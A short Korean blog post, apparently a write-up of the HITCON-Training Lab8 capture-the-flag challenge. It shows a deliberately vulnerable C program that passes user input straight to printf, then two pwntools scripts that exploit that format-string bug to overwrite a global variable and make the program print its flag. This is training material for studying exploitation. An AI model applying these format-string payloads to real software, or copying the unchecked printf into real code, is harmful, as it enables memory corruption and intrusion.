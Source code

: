 ```yaml
---
title: "[HITCON-Training]Lab8"
date: 2019-11-17
ctf: HITCON-Training
layout: post
---
```


그냥 magic 값만 맞춰주면 풀리는 문제다.

```c
#include <stdio.h>

int magic = 0 ;

int main(){
	char buf[0x100];
	setvbuf(stdout,0,2,0);
	puts("Please crax me !");
	printf("Give me magic :");
	read(0,buf,0x100);
	printf(buf);
	if(magic == 0xda){
		system("cat /home/craxme/flag");
	}else if(magic == 0xfaceb00c){
		system("cat /home/craxme/craxflag");
	}else{
		puts("You need be a phd");
	}

}
```

pwn 모듈 사용해서 magic의 값을 0xFACEB00C로 바꿔주면 된다.

> exploit.py

```python
from pwn import *

e = ELF('./craxme')
p = process('./craxme')

offset = 7
magic = 0x0804A038
#payload = fmtstr_payload(offset,{magic:0xDA})
payload = fmtstr_payload(offset,{magic:0xFACEB00C})
p.sendlineafter(':',payload)
p.interactive()
```

<br />

> exploit.py

```python
from pwn import *

e = ELF('./craxme')
p = process('./craxme')
offset = 7

payload = p32(0x0804A038)
payload += '%{}d'.format(214)
payload += '%{}$hhn'.format(offset)

p.sendlineafter(':',payload)
p.interactive()
```


